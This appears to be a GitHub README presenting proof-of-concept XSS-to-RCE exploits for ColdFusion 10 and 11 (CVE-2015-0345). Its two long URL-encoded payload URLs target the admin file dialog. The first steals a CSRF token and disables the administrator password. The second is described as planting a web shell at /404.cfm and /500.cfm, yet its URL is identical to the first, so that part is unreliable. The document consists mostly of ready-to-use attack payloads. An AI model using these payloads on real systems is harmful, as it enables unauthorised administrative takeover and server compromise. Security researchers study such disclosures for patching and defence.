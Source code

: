 ColdFusion 10.x 11.x XSS -> RCE PoC Exploits
------------

This repo contains XSS vectors for CVE-2015-0345 (APSB15-07) that allow for the ability to gain remote command execution on ColdFusion installations.

This exploit is only valid for ColdFusion 10 and 11 installations. Specifically, ColdFusion 11, Update 11 and ColdFusion 10, Update 16 fixes both of these issues. More information on this disclosure can be found [here](https://helpx.adobe.com/security/products/coldfusion/apsb15-07.html).

##Payload 1

This payload disables the requirement of a password on the ColdFusion administration panel. If this payload is delivered and ran by a ColdFusion administrator, the /CFIDE/administrator directory can be accessed completely, without authentication.

`https://<target>/CFIDE/administrator/filedialog/index.cfm?type=dir%27%2c%65%78%70%61%6e%64%65%64%3a%27%5c%78%32%46%27%7d%2c%66%75%6e%63%74%69%6f%6e%28%66%69%6c%65%29%7b%70%61%74%68%20%3d%20%66%69%6c%65%3b%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%42%79%49%64%28%22%70%61%74%68%62%6f%78%22%29%2e%76%61%6c%75%65%20%3d%20%70%61%74%68%3b%7d%29%3b%24%2e%67%65%74%28%20%22%2f%43%46%49%44%45%2f%61%64%6d%69%6e%69%73%74%72%61%74%6f%72%2f%73%65%63%75%72%69%74%79%2f%63%66%61%64%6d%69%6e%70%61%73%73%77%6f%72%64%2e%63%66%6d%22%2c%20%66%75%6e%63%74%69%6f%6e%28%20%64%61%74%61%20%29%20%7b%20%76%61%72%20%61%20%3d%20%22%5b%30%2d%39%41%2d%5a%5d%7b%34%30%7d%22%3b%20%76%61%72%20%74%20%3d%20%64%61%74%61%2e%6d%61%74%63%68%28%61%29%3b%20%76%61%72%20%78%68%72%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%20%78%68%72%2e%6f%70%65%6e%28%22%50%4f%53%54%22%2c%20%22%68%74%74%70%3a%2f%2f%31%32%37%2e%30%2e%30%2e%31%3a%38%35%30%30%2f%43%46%49%44%45%2f%61%64%6d%69%6e%69%73%74%72%61%74%6f%72%2f%73%65%63%75%72%69%74%79%2f%63%66%61%64%6d%69%6e%70%61%73%73%77%6f%72%64%2e%63%66%6d%22%2c%20%74%72%75%65%29%3b%20%78%68%72%2e%73%65%74%52%65%71%75%65%73%74%48%65%61%64%65%72%28%22%41%63%63%65%70%74%22%2c%20%22%74%65%78%74%2f%68%74%6d%6c%2c%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%68%74%6d%6c%2b%78%6d%6c%2c%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%6d%6c%3b%71%3d%30%2e%39%2c%69%6d%61%67%65%2f%77%65%62%70%2c%2a%2f%2a%3b%71%3d%30%2e%38%22%29%3b%20%78%68%72%2e%73%65%74%52%65%71%75%65%73%74%48%65%61%64%65%72%28%22%43%6f%6e%74%65%6e%74%2d%54%79%70%65%22%2c%20%22%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%2d%77%77%77%2d%66%6f%72%6d%2d%75%72%6c%65%6e%63%6f%64%65%64%22%29%3b%20%78%68%72%2e%73%65%74%52%65%71%75%65%73%74%48%65%61%64%65%72%28%22%41%63%63%65%70%74%2d%4c%61%6e%67%75%61%67%65%22%2c%20%22%65%6e%2d%55%53%2c%65%6e%3b%71%3d%30%2e%38%22%29%3b%20%78%68%72%2e%77%69%74%68%43%72%65%64%65%6e%74%69%61%6c%73%20%3d%20%74%72%75%65%3b%20%76%61%72%20%62%6f%64%79%20%3d%20%22%61%64%6d%69%6e%73%75%62%6d%69%74%3d%53%75%62%6d%69%74%2b%43%68%61%6e%67%65%73%26%63%73%72%66%74%6f%6b%65%6e%3d%22%20%2b%20%74%20%2b%20%22%26%41%64%6d%69%6e%41%75%74%68%3d%6e%6f%6e%65%26%63%66%61%64%6d%69%6e%5f%6f%6c%64%70%61%73%73%77%6f%72%64%3d%26%63%66%61%64%6d%69%6e%5f%4e%65%77%70%61%73%73%77%6f%72%64%3d%26%63%66%61%64%6d%69%6e%5f%4e%65%77%70%61%73%73%77%6f%72%64%43%6f%6e%66%69%72%6d%3d%26%73%65%65%64%3d%26%61%6c%6c%6f%77%63%6f%6e%63%6c%6f%67%69%6e%3d%74%72%75%65%22%3b%20%76%61%72%20%61%42%6f%64%79%20%3d%20%6e%65%77%20%55%69%6e%74%38%41%72%72%61%79%28%62%6f%64%79%2e%6c%65%6e%67%74%68%29%3b%20%66%6f%72%20%28%76%61%72%20%69%20%3d%20%30%3b%20%69%20%3c%20%61%42%6f%64%79%2e%6c%65%6e%67%74%68%3b%20%69%2b%2b%29%20%61%42%6f%64%79%5b%69%5d%20%3d%20%62%6f%64%79%2e%63%68%61%72%43%6f%64%65%41%74%28%69%29%3b%20%78%68%72%2e%73%65%6e%64%28%6e%65%77%20%42%6c%6f%62%28%5b%61%42%6f%64%79%5d%29%29%3b%20%7d%29%3b%24%28%27%23%66%69%6c%65%54%72%65%65%44%65%6d%6f%5f%31%27%29%2e%66%69%6c%65%54%72%65%65%28%7b%73%63%72%69%70%74%3a%27%2e%2e%2f%2e%2e%2f%61%64%6d%69%6e%69%73%74%72%61%74%6f%72%2f%61%6a%61%78%74%72%65%65%2f%6a%71%75%65%72%79%46%69%6c%65%54%72%65%65%2e%63%66%6d%3f%74%79%70%65%3d%64%69%72&fromjscript=true&dialogStyle=selectDirectory&formelem=ORMSearchIndexDirectory&defaultPath=`

##Payload 2

This payload attempts to upload a CFM shell to ColdFusion via the scheduling of tasks and modification of 404 and 500 error templates. If this payload delivered and ran by a ColdFusion administrator, a web-shell is then made available at `/404.cfm` and `/500.cfm`.

`https://<target>/CFIDE/administrator/filedialog/index.cfm?type=dir%27%2c%65%78%70%61%6e%64%65%64%3a%27%5c%78%32%46%27%7d%2c%66%75%6e%63%74%69%6f%6e%28%66%69%6c%65%29%7b%70%61%74%68%20%3d%20%66%69%6c%65%3b%64%6f%63%75%6d%65%6e%74%2e%67%65%74%45%6c%65%6d%65%6e%74%42%79%49%64%28%22%70%61%74%68%62%6f%78%22%29%2e%76%61%6c%75%65%20%3d%20%70%61%74%68%3b%7d%29%3b%24%2e%67%65%74%28%20%22%2f%43%46%49%44%45%2f%61%64%6d%69%6e%69%73%74%72%61%74%6f%72%2f%73%65%63%75%72%69%74%79%2f%63%66%61%64%6d%69%6e%70%61%73%73%77%6f%72%64%2e%63%66%6d%22%2c%20%66%75%6e%63%74%69%6f%6e%28%20%64%61%74%61%20%29%20%7b%20%76%61%72%20%61%20%3d%20%22%5b%30%2d%39%41%2d%5a%5d%7b%34%30%7d%22%3b%20%76%61%72%20%74%20%3d%20%64%61%74%61%2e%6d%61%74%63%68%28%61%29%3b%20%76%61%72%20%78%68%72%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%20%78%68%72%2e%6f%70%65%6e%28%22%50%4f%53%54%22%2c%20%22%68%74%74%70%3a%2f%2f%31%32%37%2e%30%2e%30%2e%31%3a%38%35%30%30%2f%43%46%49%44%45%2f%61%64%6d%69%6e%69%73%74%72%61%74%6f%72%2f%73%65%63%75%72%69%74%79%2f%63%66%61%64%6d%69%6e%70%61%73%73%77%6f%72%64%2e%63%66%6d%22%2c%20%74%72%75%65%29%3b%20%78%68%72%2e%73%65%74%52%65%71%75%65%73%74%48%65%61%64%65%72%28%22%41%63%63%65%70%74%22%2c%20%22%74%65%78%74%2f%68%74%6d%6c%2c%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%68%74%6d%6c%2b%78%6d%6c%2c%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%6d%6c%3b%71%3d%30%2e%39%2c%69%6d%61%67%65%2f%77%65%62%70%2c%2a%2f%2a%3b%71%3d%30%2e%38%22%29%3b%20%78%68%72%2e%73%65%74%52%65%71%75%65%73%74%48%65%61%64%65%72%28%22%43%6f%6e%74%65%6e%74%2d%54%79%70%65%22%2c%20%22%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%2d%77%77%77%2d%66%6f%72%6d%2d%75%72%6c%65%6e%63%6f%64%65%64%22%29%3b%20%78%68%72%2e%73%65%74%52%65%71%75%65%73%74%48%65%61%64%65%72%28%22%41%63%63%65%70%74%2d%4c%61%6e%67%75%61%67%65%22%2c%20%22%65%6e%2d%55%53%2c%65%6e%3b%71%3d%30%2e%38%22%29%3b%20%78%68%72%2e%77%69%74%68%43%72%65%64%65%6e%74%69%61%6c%73%20%3d%20%74%72%75%65%3b%20%76%61%72%20%62%6f%64%79%20%3d%20%22%61%64%6d%69%6e%73%75%62%6d%69%74%3d%53%75%62%6d%69%74%2b%43%68%61%6e%67%65%73%26%63%73%72%66%74%6f%6b%65%6e%3d%22%20%2b%20%74%20%2b%20%22%26%41%64%6d%69%6e%41%75%74%68%3d%6e%6f%6e%65%26%63%66%61%64%6d%69%6e%5f%6f%6c%64%70%61%73%73%77%6f%72%64%3d%26%63%66%61%64%6d%69%6e%5f%4e%65%77%70%61%73%73%77%6f%72%64%3d%26%63%66%61%64%6d%69%6e%5f%4e%65%77%70%61%73%73%77%6f%72%64%43%6f%6e%66%69%72%6d%3d%26%73%65%65%64%3d%26%61%6c%6c%6f%77%63%6f%6e%63%6c%6f%67%69%6e%3d%74%72%75%65%22%3b%20%76%61%72%20%61%42%6f%64%79%20%3d%20%6e%65%77%20%55%69%6e%74%38%41%72%72%61%79%28%62%6f%64%79%2e%6c%65%6e%67%74%68%29%3b%20%66%6f%72%20%28%76%61%72%20%69%20%3d%20%30%3b%20%69%20%3c%20%61%42%6f%64%79%2e%6c%65%6e%67%74%68%3b%20%69%2b%2b%29%20%61%42%6f%64%79%5b%69%5d%20%3d%20%62%6f%64%79%2e%63%68%61%72%43%6f%64%65%41%74%28%69%29%3b%20%78%68%72%2e%73%65%6e%64%28%6e%65%77%20%42%6c%6f%62%28%5b%61%42%6f%64%79%5d%29%29%3b%20%7d%29%3b%24%28%27%23%66%69%6c%65%54%72%65%65%44%65%6d%6f%5f%31%27%29%2e%66%69%6c%65%54%72%65%65%28%7b%73%63%72%69%70%74%3a%27%2e%2e%2f%2e%2e%2f%61%64%6d%69%6e%69%73%74%72%61%74%6f%72%2f%61%6a%61%78%74%72%65%65%2f%6a%71%75%65%72%79%46%69%6c%65%54%72%65%65%2e%63%66%6d%3f%74%79%70%65%3d%64%69%72&fromjscript=true&dialogStyle=selectDirectory&formelem=ORMSearchIndexDirectory&defaultPath=`

